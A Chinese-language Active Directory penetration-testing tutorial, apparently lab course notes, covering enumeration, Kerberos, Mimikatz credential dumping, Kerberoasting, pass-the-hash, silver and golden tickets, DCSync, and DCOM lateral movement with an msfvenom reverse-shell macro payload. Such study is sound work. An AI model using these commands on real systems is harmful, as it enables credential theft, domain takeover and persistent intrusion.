

# Active Directory Attacks

Microsoft Active Directory域服务，通常被称为Active Directory（AD），是一项允许系统管理员大规模更新和管理操作系统，应用程序，用户和数据访问的服务。由于Active Directory可能是一个高度复杂且精细的管理层，因此它构成了很大的攻击面，值得引起注意。

## 理论

Active Directory由几个组件组成：

最重要的组件是域控制器domain controller（DC）：它是安装了Active Directory域服务角色的Windows 2000-2019服务器。域控制器是Active Directory的中心和核心，因为它存储有关如何配置Active Directory的特定实例的所有信息。它还执行各种规则，这些规则管理给定Windows域中的对象如何相互交互以及最终用户可以使用哪些服务和工具。Active Directory的强大功能和复杂性基于网络管理员可以使用的惊人粒度的控件

配置Active Directory实例后，将使用诸如corp.com的名称创建域，其中corp是组织的名称。在此域中，我们可以添加各种类型的对象，包括计算机和用户对象

系统管理员可以（并且几乎总是可以）在组织单位Organizational Units（OU）的帮助下组织这些对象。OU与文件系统文件夹相当，因为它们是用于存储和分组其他对象的容器。

## AD的枚举

在AD中，管理员使用组将权限分配给成员用户，这意味着在我们进行评估时，我们将定位高价值的组。在这种情况下，我们可能会损害Domain Adminsgroup的成员，以完全控制域中的每台计算机。

获得域控制权的另一种方法是成功破坏域控制器DC，因为它可用于修改所有加入域的计算机或在它们上执行应用程序。域控制器DC包含每个单个域用户帐户的所有密码哈希。

### 传统方法

使用net user子命令，该命令将枚举所有本地帐户


添加`/domain`参数将枚举整个域中的所有用户


根据上面的输出，我们应该查询jeff_admin这个用户，因为该名称听起来很有希望


枚举域用户组


### 现代方法

使用PowerShell命令发现域控制器的主机名和DistinguishedName的组件

```powershell
PS C:\>[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```


根据此输出，域名是“ corp.com”（来自Name），主域控制器名称是“ DC01.corp.com”（来自PdcRoleOwner）。我们可以使用此信息以编程方式构建LDAP提供程序路径。让我们在构建提供程序路径的简单PowerShell脚本中包含Nameand PdcRoleOwner属性。

制作以下ps脚本

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
# $domainObj将存储整个域对象

$PDC = ($domainObj.PdcRoleOwner).Name
# $PDC将存储PDC的名称

$SearchString = "LDAP://"
$SearchString += $PDC + "/"
# $SearchString将构建提供程序的输出路径

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
<#
DistinguishedName将由我们的域名（“ corp.com”）分解为单个域名组件（DC），使DistinguishedName为“ DC = corp，DC = com”构造结果应为LDAP://DC01.corp.com/DC=corp,DC=com
#>

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
# 使用LDAP提供程序路径实例化DirectorySearcher类

$Searcher.SearchRoot = $objDomain
<#
要使用DirectorySearcher类，我们必须指定SearchRoot，它是Active Directory层次结构中开始搜索的节点。619搜索根采用从DirectoryEntry620类实例化的对象的形式。当没有参数传递给构造函数时，SearchRoot将指示每次搜索应返回整个Active Directory的结果
#>

$Searcher.filter="samAccountType=805306368"
# $Searcher.filter="name=Jeff_Admin" 我们也可以通过这个过滤语句来只搜索一个用户
$Searcher.FindAll()
<#
没有任何筛选器，我们将接收整个域中的所有对象。设置筛选器的一种方法是通过samAccountTypeattribute，这是所有用户，计算机和组对象都具有的属性。
请参考链接 https://msdn.microsoft.com/en-us/library/ms679637(v=vs.85).aspx获取更多示例，但是在我们的示例中，我们可以向filter属性提供0x30000000（十进制805306368），以枚举域中的所有用户
#>

Foreach($obj in $Result)
{
	Foreach($prop in $obj.Properties)
	{
		$prop
	}
	Write-Host "------------------------"
}
<#
对结果进行清理。由于用户对象的属性存储在Properties字段中，因此我们可以实现一个double循环，该循环将在每个属性上打印每个属性。完整的PowerShell脚本将收集所有用户及其属性
#>
```

尽管此脚本乍看之下似乎让人望而生畏，但它非常灵活，可以修改以辅助执行其他AD枚举任务。

### 解决嵌套组

普通的枚举只能让我们得到类似如下的组查询结果


我们将无法得到这三个组之间的嵌套关系。

使用上一个脚本通过适当修改，即可解决嵌套组并发现可用信息。

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
...
$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#修改过滤器。以查询组 
$Searcher.FindAll()

Foreach($obj in $Result)
{
	$obj.Properties.name
	#修改以显示名称
}
```

结果


现在，通过在名称属性上设置适当的过滤器来尝试列出Secret_Group的成员。此外，我们将仅通过修改$obj.Properties.member显示member来获取组成员。

```powershell
...
$Searcher.filter="(name=Secret_Group)"
#修改过滤器。以查询Secret_Group组 
$Searcher.FindAll()

Foreach($obj in $Result)
{
	$obj.Properties.member
	#只显示成员
}
```

我们将得到这个结果


证明Nested_Group组是Secret_Group的成员。再次修改，深入查询


结果Another_Nested_Group嵌套于Nested_Group


我们继续修改，最终会得到完整的嵌套及成员信息。我们发现域用户Adam是Another_Nested_Group的唯一成员


### 当前登录用户

我们已经列出用户及其组成员身份，并可以轻松找到管理用户，下一步，我们要查找属于高价值组成员的登录用户，因为其凭据将被缓存在内存中，我们可以窃取凭据并对其进行身份验证

攻陷域计算机后，我们应枚举域中的每台计算机，然后针对获得的目标列表使用`NetWkstaUserEnum`。请记住，如果我们仅对该目标具有**本地管理员**特权，则此API仅列出已登录到该目标的用户。

或者，我们可以集中精力发现网络中的域控制器和任何潜在的文件服务器（基于服务器主机名或开放端口），并针对这些服务器使用`NetSessionEnum`枚举所有枚举用户的会话

我们将使用NetWkstaUserEnumAPI枚举Windows 10客户端计算机上的本地用户，并使用NetSessionEnum枚举域控制器上用户的活动会话，最常见的解决方案是使用PowerView PowerShell脚本，该脚本是PowerShell Empire框架的一部分

要使用它，我们必须首先导入它，然后枚举目标机器的登录用户

```powershell
PS C:\> Import-Module .\PowerView.ps1		#下载之后导入
PS C:\> Get-NetLoggedon -ComputerName client251		#<client251>为计算机名
```

结果


输出将显示预期的offsec帐户。接下来，让我们尝试在域控制器DC01上检索活动会话（active sessions）。这些会话是在用户登录时针对域控制器DC执行的，但它们源自特定的工作站或服务器，而这正是我们试图枚举的内容。


### 通过服务主体名称（SPN）枚举

攻击域用户帐户的一种替代方法是针对所谓的服务帐户（Service Account），该服务帐户也可能是高价值组的成员

执行应用程序时，它必须始终在一个操作系统账户的上下文中执行。

比如：如果用户启动应用程序，则在该用户帐户的上下文中执行。而系统本身启动的服务则使用基于服务帐户Service Account的上下文来执行的。

也就是说，当将Exchange，SQL或Internet信息服务（IIS）之类的应用程序集成到Active Directory中时，将使用我们称为 : 服务主体名称*Service Principal Name（SPN）*的，唯一的，*服务实例标识符*   将  特定服务器上的服务与Active Directory中的服务帐户Service Account相关联。

通过枚举域中所有已注册的SPN，我们可以获得运行在与目标Active Directory集成的服务器上的应用程序的IP地址和端口号。由于该信息已注册并存储在Active Directory中，因此它存在于域控制器上。为了获取数据，我们将再次查询域控制器以搜索特定的服务主体名称。

修改之前的查询脚本


根据输出，将一个属性名称samaccountname设置为iis_service，以指示存在Web服务器，并将serviceprincipalname设置为HTTP / CorpWebServer.corp.com。这一切似乎都暗示了Web服务器的存在


让我们尝试使用nslookup解析“ CorpWebServer.corp.com”


从结果中可以清楚地看到，主机名解析为内部IP地址，即域控制器的IP地址。如果浏览该IP地址，则会找到默认的IIS Web服务器。


## AD身份验证

Active Directory支持多种身份验证协议和技术，并且对Windows计算机以及运行Linux和macOS的计算机都实施身份验证。Active Directory使用Kerberos或NTLM身份验证协议

### NTLM身份验证

当客户端通过IP地址（而不是主机名）对服务器进行身份验证时，或者如果用户尝试对未在Active Directory集成DNS服务器上注册的主机名进行身份验证，则使用NTLM身份验证。同样，第三方应用程序可能选择使用NTLM身份验证而不是Kerberos身份验证

与其他任何哈希一样，NTLM也不能反转。但是，它被认为是“快速哈希”加密算法，因为即使设备不多，短密码也可以在几天内破解。


### Kerberos身份验证

Microsoft使用的Kerberos身份验证协议是来自于MIT创建的Kerberos版本身份验证协议，自Windows Server 2003起已被用作Microsoft的主要身份验证机制。尽管NTLM身份验证通过质询和响应的原理工作，而基于Windows的Kerberos身份验证使用票据系统。

在较高级别上，对Active Directory中的服务进行Kerberos客户端身份验证，涉及在密钥分发中心（KDC）的角色中使用域控制器。

当用户登录其工作站时，请求将发送到域控制器，该域控制器具有KDC的作用，并且还维护身份验证服务。此身份验证服务器请求（或AS_REQ）包含一个时间戳，该时间戳使用用户的用户名密码所生成的哈希值进行加密。

当域控制器接收到该请求时，它会查找与特定用户关联的密码哈希，并尝试解密时间戳。如果解密过程成功并且时间戳记不是重复的（防止潜在的重放攻击），则认为身份验证成功。

域控制器使用Authentication  Server  Reply（AS_REP）回复客户端，其中包含会话密钥（因为Kerberos是无状态的）和Ticket Granting Ticket（TGT）。

会话密钥使用用户的密码哈希进行加密，并且可以由客户端解密并重新使用。

TGT则包含有关用户的信息，包括组成员身份，域，时间戳，客户端的IP地址和会话密钥。

为了避免篡改，TGT的票证仅由KDC已知的密钥加密，不能由客户端解密。客户端收到会话密钥和TGT后，KDC会认为客户端身份验证已完成。

> 默认情况下，TGT有效期为10个小时，之后将进行续订。此续订不需要用户重新输入密码

当用户希望访问域的资源（例如网络共享，Exchange邮箱或其他具有注册服务主体名称的应用程序）时，它必须再次联系KDC

这次，客户端构造了一个票证授予服务请求（或TGS_REQ）数据包

该数据包组成：

* 当前用户

* 使用会话密钥加密的时间戳

* 资源的SPN

* 加密的TGT

接下来，KDC上的票证授予服务接收到TGS_REQ，如果域中存在SPN，则使用KDC已知的密钥对TGT进行解密。然后，从TGT中提取会话密钥，并将其用于解密请求的用户名和时间戳。

至此，KDC执行了几项检查：

1.TGT必须具有有效的时间戳记（未检测到重播且请求尚未过期）

2.TGS_REQ中的用户名必须与TGT中的用户名匹配

3.客户端IP地址需要与TGT IP一致地址。

如果此验证过程成功，票证授予服务将使用票证授予服务器应答器TGS_REP响应客户端。

该数据包包含三个部分：

* 已被授予访问权限的SPN

* 客户端和SPN之间要使用的会话密钥

* 包含用户名和组成员身份以及新创建的会话密钥的服务票证

使用与创建TGT相关的会话密钥对前两个部分（SPN和会话密钥）进行加密，并使用在相关SPN中注册的服务帐户的密码哈希对服务票证进行加密

一旦KDC的身份验证过程完成，并且客户端同时拥有会话密钥和服务票证，则服务身份验证开始

首先，客户端将应用程序请求者AP_REQ发送给应用程序服务器，该请求程序包括用户名和时间戳，该时间戳由与服务凭单关联的会话密钥以及服务凭单本身加密.

应用程序服务器使用服务帐户密码哈希对服务票证进行解密，并提取用户名和会话密钥。然后，它使用后者从AP_REQ解密用户名。如果AP_REQ用户名与从服务票证解密的AP_REQ用户名匹配，则接受请求。在授予访问权限之前，服务将检查服务票证中提供的组成员身份，并为用户分配适当的权限，之后用户可以访问请求的服务


### 缓存的凭证存储和检索

由于Microsoft的Kerberos实现使用单点登录，因此必须将密码哈希存储在某个地方才能更新TGT请求。在当前版本的Windows中，这些哈希存储在本地安全机构子系统服务（Local Security Authority Subsystem Service - LSASS）内存空间中

由于LSASS进程是操作系统的一部分，并且以SYSTEM身份运行，因此我们需要SYSTEM（或本地管理员）权限才能访问存储在目标上的哈希。

由于Offsec域用户是本地管理员，因此我们能够以较高的权限启动命令提示符。在此命令提示符下，我们将运行mimikatz并输入privilege :: debug以启用SeDebugPrivlege，这将使我们能够与另一个帐户拥有的进程进行交互。最后，我们将运行sekurlsa :: logonpassword以转储所有使用Sekurlsa模块的已登录的用户的凭据。

```powershell
C:\> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```

结果：


上面的输出代码段显示了存储在LSASS中的域用户Offsec的所有凭据信息，包括缓存的哈希

上面的输出显示了两种类型的哈希。这将根据AD实现的功能级别而有所不同：

* Windows 2003的AD实例，NTLM是唯一可用的哈希算法。

* 运行Windows Server 2008或更高版本的实例，NTLM和SHA-1（AES加密的常见伴侣）可能都可用。

* 在Windows 7等较旧的操作系统或手动设置了此功能的操作系统上，将启用WDigest。启用WDigest后，运行Mimikatz将在密码哈希旁边显示明文密码。


Mimikatz的另一种方法和用法是通过滥用TGT和服务票证来利用Kerberos身份验证。我们知道，当前登录到本地计算机的用户的Kerberos TGT和服务票证，已经存储以备将来使用。这些票证也存储在LSASS中，我们可以使用Mimikatz与我们的票证以及其他本地用户的票证进行交互并检索。


输出同时显示TGT和TGS。窃取TGS将使我们只能访问与那些票证相关的特定资源。另一方面，有了TGT票证，我们可以为我们要在域内定位的特定资源请求TGS

### 服务帐户攻击

当用户想要访问SPN托管的资源时，客户端会请求域控制器生成的服务票证。该服务票证随后由应用服务器解密和验证，因为它是通过SPN的密码哈希加密的

从域控制器请求服务票证时，不会检查用户是否具有访问SPN所托管的服务的任何权限。仅当连接到服务本身时，才将这些检查作为第二步执行。这意味着，如果我们知道要定位的SPN，则可以向域控制器请求它的服务票证。然后，由于它是我们自己的票证，因此我们可以从本地内存中提取票证并将其保存到磁盘

例如，我们知道域中Internet信息服务Web服务器的注册SPN是HTTP / CorpWebServer.corp.com。在PowerShell中，我们可以使用KerberosRequestorSecurityTokenclass655来请求服务票证

我们需要的代码段位于System.IdentityModel命名空间内，默认情况下不会将其加载到PowerShell实例中。要加载它，我们使用带有`-AssemblyName`参数的`Add-Type`。我们可以通过使用`-ArgumentList`选项指定SPN调用KerberosRequestorSecurityTokenconstructor。

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

执行后，请求的服务票证应由域控制器生成，并加载到Windows 10客户端的内存中。除了常用的Mimikatz之外，我们还可以使用内置的klist命令显示当前用户的所有已缓存Kerberos票证




要使用Mimikatz下载服务票证，我们使用kerberos :: list命令，它产生与上面的klist命令等效的输出。我们还指定了`/export`参数以下载到磁盘。


根据Kerberos协议是使用SPN的密码哈希对服务票证进行加密的。那么如果我们能够请求票证并使用蛮力或猜测对其进行解密（采用称为Kerberoasting的技术），我们将知道密码哈希，从而可以破解服务帐户的明文密码。这种攻击不需要管理权限


### 低调且慢速的密码猜测

如果暴力或单词列表身份验证攻击，我们必须注意帐户锁定，因为太多的失败登录可能会阻止帐户继续攻击，并可能会警告系统管理员。我们可以使用LDAP和ADSI执行“低调且慢速””而不会触发帐户锁定的针对AD用户的密码攻击。首先，让我们看一下使用净帐户的域的帐户策略


“锁定阈值（Lockout threshold）”，它表示锁定前最多只能登录5次。这意味着我们可以安全地尝试四次登录而不会触发锁定。请考虑“锁定”观察窗口，该窗口指示在上次登录尝试后每隔30分钟，我们将获得一次额外的“免费”登录尝试。使用这些设置，我们可以尝试进行52次登录。假设实际用户未失败登录尝试，则对每个域用户在二十四小时内不会触发锁定。这样的攻击将使我们能够编译一小段非常常用的密码，并将其用于大量的用户在实践中揭示了组织中相当多的弱帐户密码。

可以通过设置DirectoryEntryinstance来在其他用户的上下文中进行查询。使用之前的查询脚本，并额外提供三个参数，包括域控制器的LDAP路径以及用户名和密码

## Active Directory的横向移动

该技术将允许我们对系统进行身份验证，并且仅使用用户的哈希或Kerberos票证即可执行代码。

### 哈希传递

通过Pass the Hash（PtH）技术使攻击者可以使用用户的NTLM散列而不是关联的纯文本密码来对远程系统或服务进行身份验证。***请注意，这不适用于Kerberos身份验证，仅适用于使用NTLM身份验证的服务器或服务。***

许多第三方工具和框架使用PtH来允许用户进行身份验证和获取代码执行，包括来自Metasploit的PsExec，Passing-the-hash工具包，和Impacket。它们背后的机制在很大程度上与攻击者的连接相同使用服务器消息块（SMB）协议向受害者发送信息，并使用NTLM哈希执行身份验证

请注意，PtH合法使用NTLM哈希。但是，漏洞在于我们未经授权访问了本地管理员的密码哈希

我们可以使用Passing-The-Hash工具包中的pth-winexe


### 跨越哈希

通过使用overpass the hash，我们可以滥用NTLM用户的哈希来获得完整的Kerberos票证授予票证（TGT）或服务票证，从而使我们能够以该用户身份访问另一台计算机或服务。

我们可以使用mimikatz的sekurlsa :: logonpasswords命令对此进行验证，该命令会转储缓存的密码哈希


此输出显示Jeff_Admin的缓存凭据，包括NTLM哈希，我们将利用该凭据来跨越哈希

超越哈希技术的本质是将NTLM哈希转换为Kerberos票证，并避免使用NTLM身份验证。一种简单的方法是使用Mimikatz的sekurlsa :: pth命令。

作为第一个参数，我们指定/ user：和/ domain：，分别将它们设置为jeff_admin和corp.com。我们将使用/ ntlm：指定NTLM哈希，最后使用/ run：指定要创建的过程（在本例中为PowerShell）。


至此，我们有了一个新的PowerShell会话，该会话允许我们以Jeff_Admin的身份执行命令。使用klist列出缓存的Kerberos票证


没有缓存Kerberos票证，但这是可以预期的，因为Jeff_Admin没有执行交互式登录。

让我们通过对使用`net use`利用域控制器上的网络共享进行身份验证来生成TGT


再次验证


票据已经生成，其中包括用于CIFS服务的TGT和TGS


现在我们已经将NTLM哈希转换为Kerberos TGT，从而使我们能够使用依赖Kerberos身份验证的任何工具（与NTLM相对），例如Microsoft的官方PsExec应用程序.PsExec可以远程运行命令，但不接受密码哈希。由于我们已经生成了Kerberos票证并且在PowerShell会话中的Jeff_Admin上下文中进行操作，我们可以重用TGT在域控制器上获取代码执行。现在尝试运行./PsExec.exe在\dc01上作为Jeff_Admin远程启动cmd.exe。


已经成功重用了Kerberos TGT在域控制器上启动shell。

### 票据传递

我们只能在为其创建机器的机器上使用TGT，但是TGS可能会提供更大的灵活性

通过票证攻击通行证可利用TGS，可以将TGS导出并重新注入到网络上的其他位置，然后用于对特定服务进行身份验证。此外，如果服务票证属于当前用户，则不需要管理特权

记住Kerberos身份验证的内部工作原理，在服务帐户中执行的服务器上的应用程序会根据服务票证中所包含的组成员身份，去检查用户的权限。但是，应用程序不会验证服务票证中的用户和组权限。而是盲目地信任服务票证的完整性，因为它是用密码哈希（理论上讲）加密的，而这只有服务帐户和域控制器才知道

#### 银票

例如，如果我们针对在服务帐户iis_service中执行的IIS服务器进行身份验证，则IIS应用程序将根据服务票证中存在的组成员身份，来确定我们对IIS服务器所具有的权限。利用服务帐户密码或与其相关联的NTLM哈希，我们可以伪造自己的服务票证，以所需的任何权限访问目标资源。此定制创建的票证被称为银票，并且如果在多个服务器上使用了SPN，则可以对所有服务器使用银票。

Mimikatz可以制作一张银票，并通过kerberos :: golden命令（有些误导）将其直接注入内存。我们将在稍后的模块中解释这种明显的错误命名。要创建票证，我们首先需要获取域的安全标识符SID。SID是Active Directory中任何对象的唯一名称，在此结构中，SID以文字“ S”开头，以将字符串标识为SID，然后是修订级别（通常设置为“ 1”），标识符-授权值（AD中通常为“ 5”）以及一个或更多的附加值。第一个值（“ S-1-5”）在AD中是静态的。subauthority值是动态的，由两个主要部分组成：域的数字标识符（在本例中为“ 21-2536614405-3629634762-1218571035”）和一个相对标识符或RID，代表域中的特定对象（在本例中为“ 1116”）。


域值和相对标识符的组合有助于确保每个SID都是唯一的。我们可以使用whoami / user命令轻松获取当前用户的SID，然后从中提取域SID部分


silver ticket命令需要用户名（/ user），域名（/ domain），域SID（/ sid）（上面已突出显示），服务的全限定主机名（/ target），服务类型（/service：HTTP）和iis_service服务帐户的密码哈希（/ rc4）。最后，生成的白银票证将直接用/ pptflag注入内存，在运行之前，我们将使用`kerberos::purge`清除所有现有的Kerberos票证并使用`kerberos::list`验证


```c
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```


现在，我们已将此票证加载到内存中，我们可以与服务进行交互并基于我们放入银票证中的组成员身份来访问任何信息。根据服务的类型，也可能会获得代码执行

### 分布式组件对象模型

利用分布式组件对象模型Distributed Component Object Model（DCOM）的横向移动技术是一种相当新的技术。

Microsoft组件对象模型（COM）是用于创建相互交互的软件组件的系统。创建COM时，它是用于同一进程或跨进程的交互，但它已扩充到分布式组件对象模型（DCOM），以便通过网络在多台计算机之间进行交互。

COM和DCOM都是非常古老的技术，其历史可以追溯到Windows的第一版。与DCOM的交互是通过TCP端口135上的RPC执行的，并且要求本地管理员访问才能调用DCOM服务控制管理器，**该管理器本质上是一个API**。

与Microsoft Office相关的DCOM对象可以通过使用Outlook和PowerPoint进行横向移动。由于这要求目标计算机上存在Microsoft Office，因此，这种横向移动技术最好用于工作站

我们首先使用PowerShell和System.Activator类的CreateInstance方法创建对象的实例。作为CreateInstance的参数，我们必须使用GetTypeFromProgID方法指定程序标识符（在本例中为Excel）来提供其类型.Application）以及远程工作站的IP地址。实例化对象后，我们可以使用Get-Member发现其可用方法和对象。

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$com | Get-Member
```

执行此ps1脚本会得到


输出包含许多方法和对象，但我们将重点放在Runmethod 691上，它将使我们能够远程执行Visual Basic for Applications（VBA）宏

若要使用此功能，我们首先将通过选择VIEWribbon并单击Excel中的Macros来创建带有概念证明宏的Excel文档。在此简单的POC中，我们将创建一个启动notepad.exe的VBA宏

```vbscript
Sub mymacro()
    Shell ("notepad.exe")
End Sub
```

我们将宏命名为“ mymacro”，并将Excel文件保存为旧版.xls格式。要执行该宏，必须先将Excel文档复制到远程计算机。由于我们必须是本地管理员才能利用DCOM，因此我们还应该可以通过SMB访问远程文件系统。我们可以使用.NET System.IO.Fileclass的Copy方法复制文件。要调用它，我们指定源文件，目标文件和一个标志，以指示是否应覆盖目标文件（如果存在）。

```powershell
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

在我们能够对宏执行Run之前，我们必须首先指定它所包含的Excel文档。这是通过Workbooks对象的Open方法完成的，该方法也可以通过之前DCOM的枚举中workbooks一项确认


如果我们只是直接利用workbook打开容易产生错误


这是由于，通过DCOM实例化Excel.Application时，它是使用SYSTEM帐户完成的。SYSTEM帐户没有配置文件，该配置文件用作打开过程的一部分。我们可以简单地在满足此配置文件要求的C：\ Windows \ SysWOW64 \ config \ systemprofile上创建Desktop文件夹。我们可以使用以下PowerShell代码创建此目录以避免错误：

```powershell
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

整个过程合并之后的完整代码

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

此代码应打开Notepad应用程序，作为在远程计算机上以高完整性执行的后台进程


POC完成。

现在制作真正的payload用来利用

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

接下来，我们提取以“ powershell.exe -nop -w hidden -e”开头的行，然后是Base64编码的有效负载，并使下面的简单Python脚本将命令拆分为较小的块，从而绕过了Excel的宏限制

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"'
```

现在，我们将更新Excel宏以执行PowerShell（而非记事本），并重复操作以将其上传到域控制器并执行

```vbscript
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

设置监听，得到shell

## AD的持久化

我们可以在AD环境中使用传统的持久性方法，但也可以获取特定于AD的持久性。请注意，在许多现实世界的渗透测试或红队参与中，持久性不属于范围，因为一旦评估完成，则存在不完全清除的风险

### 金票

回顾Kerberos身份验证的概念解释，我们回想起当用户提交TGT请求时，KDC用域中KDC已知的密钥对TGT进行加密。这个秘密密钥实际上是我们称之为`krbtgt`的域用户帐户的密码哈希，如果我们能够使用krbtgt密码哈希，则可以创建自己自定义的TGT或黄金票证，例如，我们可以创建一个TGT来声明非特权用户实际上是Domain Admins组的成员，并且域控制器将对其信任，因为它已正确加密

这提供了一种在Active Directory环境中保持持久性的巧妙方法，但是最大的好处是不会自动更改krbtgt帐户密码。实际上，仅在域功能级别从Windows 2003升级到Windows 2008时这个密码才被更改过。因此，找到非常古老的krbtgt密码哈希并不少见

在这一阶段，我们应该已经有权访问Domain Admins组成员的帐户，或者我们已经损害了域控制器本身。通过这种访问方式，我们可以使用Mimikatz提取krbtgt帐户的密码哈希为了模拟这一点，我们将使用jeff_admin帐户通过远程桌面登录域控制器，从C：folder运行Mimikatz，然后发出lsadump :: lsa命令，如下所示


创建黄金票证并将其注入内存不需要任何管理特权，甚至可以在未加入域的计算机上执行。

在生成黄金票证之前，我们将使用kerberos :: purge删除所有现有的Kerberos票证


我们将向Mimikatz kerberos :: golden699命令提供域SID（我们可以通过whoami / user收集），以创建黄金票据。这次，我们将使用/ krbtgt选项而不是/ rc4来表示我们正在提供密码哈希。我们会将黄金票的用户名设置为fakeuser。这是允许的，因为域控制器信任由krbtgt密码哈希正确加密的任何内容

```powershell
mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```


当使用黄金票据选项时，Mimikatz提供了两组默认值，即用户ID和组ID。默认情况下，用户ID设置为500，这是域的内置管理员的RID，而组ID的值则是Active Directory中特权最高的组，包括Domain Admins组。注入内存后，我们可以使用misc :: cmd启动新的命令提示符，然后尝试使用PsExec横向移动


得到了新的命令行，验证成功


请注意，通过创建自己的TGT然后使用PsExec，是利用Kerberos身份验证来执行的。

如果我们不是执行`psexec.exe \\dc01`而是使用IP地址的替代域控的主机名`dc01`的话，则会强制使用NTLM身份验证，这会被阻止


### 域控制器同步

在Active Directory基础结构中实现持久性的另一种方法是窃取域中所有管理用户的密码哈希。

为此，我们可以横向移动到域控制器并运行Mimikatz来转储每个用户的密码哈希。我们还可以窃取NTDS.dit数据库文件的副本，该文件是硬盘驱动器上存储的所有Active Directory帐户的副本，类似于用于本地帐户的SAM数据库

虽然这些方法可能效果很好，但它们留下了访问线索，并可能需要我们上载工具。一种替代方法是滥用AD功能本身，以从工作站远程捕获哈希。

在生产环境中，域通常具有多个域控制器以提供冗余。目录复制服务远程协议Directory Replication Service Protocl使用复制来同步这些冗余域控制器。域控制器可以使用IDL_DRSGetNCChanges API请求对特定对象（例如帐户）进行更新。幸运的是，接收更新请求的域控制器不会验证该请求是否来自已知的域控制器，而只能验证相关联的SID是否具有适当的特权。如果我们尝试从Domain Admins组成员的用户向域控制器发出恶意更新请求，则能达到目的。

打开Mimikatz并使用lsadump :: dcsync来启动复制，使用`/user`指示要同步的目标用户为内置域管理员帐户Administrator


结果将包含与最近使用的29个用户密码以及与AES加密一起使用的关联的多个哈希。使用以上技术，我们可以请求使用域控制器进行复制更新，并获取Active Directory中每个帐户的密码哈希无需登录域控制器。

